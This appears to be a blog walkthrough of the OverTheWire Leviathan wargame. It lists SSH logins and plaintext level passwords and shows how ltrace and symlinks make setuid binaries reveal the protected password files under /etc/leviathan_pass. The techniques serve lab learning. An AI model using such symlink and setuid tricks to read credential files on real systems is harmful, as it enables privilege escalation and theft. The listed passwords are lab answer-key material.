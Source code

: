 ```yaml
---
title: 'Over The Wire - Leviathan'
date: '2023-04-19'
tags: ['Info Sec', 'Linux']
draft: false
summary: 'Walkthrough of each level of Over the Wire's Leviathan series. Its a CLI game which helps players master Linux, SSH, and much more.'
layout: PostSimple
bibliography: references-data.bib
canonicalUrl:
---
```


## Level 0

```
ssh leviathan0@leviathan.labs.overthewire.org -p 2223
```

```
leviathan0
```

## Level 1

`ltrace` prints the function calls which script invokes. It analyzes the program.

```
ssh leviathan1@leviathan.labs.overthewire.org -p 2223
```

```
PPIfmI1qsA
```

## Level 2

```
ssh leviathan2@leviathan.labs.overthewire.org -p 2223
```

```
mEh5PNl10e
```

```
mktemp -d
touch /tmp/tmp.s7E8Gz5BRw/"test file.txt"

ltrace ./printfile /tmp/tmp.s7E8Gz5BRw/"test file.txt"
```

Link file which points to

```
ln -s /etc/leviathan_pass/leviathan3 /tmp/tmp.s7E8Gz5BRw/test
```

```
chmod 777 /tmp/tmp.s7E8Gz5BRw
./printfile /tmp/tmp.s7E8Gz5BRw/"test file.txt"
```

https://www.unix.com/tips-and-tutorials/19060-unix-file-permissions.html

## Level 3

```
ssh leviathan3@leviathan.labs.overthewire.org -p 2223
```

```
Q0G8j4sakn
```

```
ltrace ./level3
```

Reading the output we see that the comparison password is hardcoded.

```
./level3
snlprintf

cat /etc/leviathan_pass/leviathan4
```

## Level 4 - Analyze file for SUID binaries

```
ssh leviathan4@leviathan.labs.overthewire.org -p 2223
```

```
AgvropI4OA
```

```
ls -al
cd .trash
./bin

echo 0100010101001011010010110110110001010100010001100011000101011000011100010111001100001010 | perl -lpe '$_=pack"B*",$_'
```

We notice `.trash` has elevated permissions so check it out.
The same thing happens for `.bin`.

The output is clearly binary so with a search we parse it to ASCII

## Level 5 -

```
ssh leviathan5@leviathan.labs.overthewire.org -p 2223
```

```
EKKlTF1Xqs
```

We notice the bin `leviathan5` fails so we create the log file for which it
complains after analyizing with ltrace.

```
touch /tmp/file.log
./leviathan5
```

```
ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log
./leviathan5
```

Create a link to `leviathan6` from `file.log` which executes when we run the `leviathan5` bin.

## Level 6 - Analyze file for SUID binaries

```
ssh leviathan5@leviathan.labs.overthewire.org -p 2223
```

```
YZ55XPVk2l
```
